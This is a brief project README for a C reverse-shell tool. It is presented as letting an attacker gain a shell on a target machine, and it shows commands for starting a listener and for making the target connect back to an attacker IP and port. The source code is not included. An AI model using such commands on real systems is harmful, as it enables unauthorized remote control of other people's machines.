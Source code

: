 # reverseShell
👨‍💻 Script in C which after compiling can be used by an 
**Attacker** 
to gain a shell of
**Target** 
machine.

## Usage
### 1. Setup a server and listen for incoming connections.
On your machine setup a server and start listening on a port.

``` 
./attacker 8080 
```

### 2. Execute client script and setup a connection to the server
You can do this by simply executing the target compiled file

```
./target 192.168.0.2 8080
```

Now you should have a prompt on server machine.

## Demo
![Alt Text](https://github.com/Yashvendra/reverseShell/blob/master/Demo/video-gif.gif)

## License
MIT © y_k_007

